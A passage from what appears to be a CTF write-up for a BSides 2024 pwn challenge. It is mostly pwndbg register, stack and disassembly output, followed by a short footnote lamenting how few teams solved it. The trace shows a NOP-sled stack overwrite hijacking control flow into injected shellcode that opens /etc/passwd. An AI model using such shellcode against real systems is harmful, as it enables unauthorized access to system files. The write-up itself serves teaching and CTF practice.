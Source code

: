 ```c
 ► 0         0x40094b kids_are_not_allowed_here+63
   1 0x9090909090909090
   2 0x9090909090909090
   3 0x9090909090909090
   4 0x9090909090909090
   5 0x9090909090909090
   6 0x9090909090909090
   7 0x9090909090909090
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Continue execution.

```c
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0000000000602040 in ans ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────
 RAX  0
 RBX  0x7ffede8dd408 —▸ 0x7ffede8de4f5 ◂— '/home/kidd/Desktop/WORK/bsides24/pwn/classroom'
 RCX  0x7f561a9d14e0 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x602040 (ans) ◂— 0x657672685841026a
 RDI  1
 RSI  0x400c68 ◂— push rdi
 R8   4
 R9   7
 R10  7
 R11  0x202
 R12  0
 R13  0x7ffede8dd418 —▸ 0x7ffede8de524 ◂— 'PWD=/home/kidd/Desktop/WORK/bsides24/pwn'
 R14  0x7f561ab24000 (_rtld_global) —▸ 0x7f561ab252c0 ◂— 0
 R15  0
 RBP  0x7ffede8dd2d8 ◂— 0x9090909090909090
*RSP  0x7ffede8dd2c0 —▸ 0x40094d (kids_are_not_allowed_here+65) ◂— nop 
*RIP  0x602040 (ans) ◂— 0x657672685841026a
──────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────
 ► 0x602040 <ans>       push   2
   0x602042 <ans+2>     pop    r8                             R8 => 2
   0x602044 <ans+4>     push   0x1657672
   0x602049 <ans+9>     xor    dword ptr [rsp], 0x1010101     [0x7ffede8dd2b8] => 6584179
   0x602050 <ans+16>    movabs rax, 0x7361702f6374652f        RAX => 0x7361702f6374652f ('/etc/pas')
   0x60205a <ans+26>    push   rax
   0x60205b <ans+27>    push   2
   0x60205d <ans+29>    pop    rax                            RAX => 2
   0x60205e <ans+30>    mov    rdi, rsp                       RDI => 0x7ffede8dd2b0 ◂— '/etc/passwd'
   0x602061 <ans+33>    xor    esi, esi                       ESI => 0
   0x602063 <ans+35>    syscall 
────────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffede8dd2c0 —▸ 0x40094d (kids_are_not_allowed_here+65) ◂— nop 
01:0008│-010 0x7ffede8dd2c8 ◂— 0x9090909090909090
02:0010│-008 0x7ffede8dd2d0 —▸ 0x400c68 ◂— push rdi
03:0018│ rbp 0x7ffede8dd2d8 ◂— 0x9090909090909090
... ↓        4 skipped
──────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────
```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?